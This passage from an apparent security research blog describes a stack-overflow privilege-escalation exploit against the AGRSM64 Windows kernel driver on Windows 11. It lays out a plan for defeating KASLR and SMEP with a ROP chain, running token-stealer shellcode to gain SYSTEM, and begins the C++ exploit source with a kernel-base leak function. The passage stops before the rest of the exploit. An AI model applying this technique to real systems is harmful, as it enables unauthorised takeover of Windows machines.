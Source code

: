 All right we can override kernel memory regions with arbitrary data and length and crash the machine, great.

Next we need an exploit to do some controlled attack. As a simple proof of concept we are going to take the token stealer shellcode and elevate our privileges to SYSTEM. This attack is already well documented and I'll only briefly discuss how this is done. For more details you should check out [Connor McGarr's excellent](https://connormcgarr.github.io) blog and related topics.

As you can imagine we need to bypass some Windows specific security protections in the kernel, for simplicity reasons I deactivated Windows Defender and Core Isolation on a otherwise fully patched and functional Windows 11 machine. We will come back to more sophisticated exploits bypassing more protections at a later stage of this blog series.

For Kernel Address Space Layout Randomization (KASLR) we need to find a memory leak or simply call `EnumDeviceDrivers()`. Lol. Every medium-integrity process (i.e. our exploit) can call this function.

For Supervisor Mode Execution Prevention (SMEP) we will manipulate a single CR4 bit to return to our shellcode in user-mode and switch SMEP back on once we are done. All this is done with a simple ROP chain.

So our plan is as follows:
1. leak kernel base address via `EnumDeviceDrivers()`
2. find gadgets in ntoskrnl.exe and get offsets to those instructions
3. construct ROP chain
4. overwrite the return address of our IOCTL handler function with the first ROP gadget in ntoskrnl.exe
5. manipulate CR4 to be able to jump to user mode, where our shellcode is located
6. execute token stealer shellcode
7. ROP to ntoskrnl.exe and restore CR4
8. enjoy our SYSTEM cmd shell


``` c++
// AGRSM64 Kernel Driver LPE
// WIN11 x64 Stack Overflow with SMEP Bypass
// Author: Christoph Schwarz cschwarz1@proton.me


#include <stdio.h>
#include <windows.h>
#include <psapi.h>

#define IOCTL_CODE 0x1b2150

DWORD64 getKBaseAddress(void) {
    LPVOID lpImageBase[1024];
    DWORD lpcbNeeded;

    printf("[+] Calling EnumDeviceDrivers()...\n");

    BOOL baseofDrivers = EnumDeviceDrivers(
        lpImageBase,
        sizeof(lpImageBase),
        &lpcbNeeded
    );
    // ntoskrnl.exe is in array[0]
    DWORD64 krnlBase = (DWORD64)lpImageBase[0];

    printf("[+] Found kernel leak!\n");
    printf("[+] ntoskrnl.exe is located at: 0x%llx\n", krnlBase);

    return krnlBase;
}

void exploit()
{
```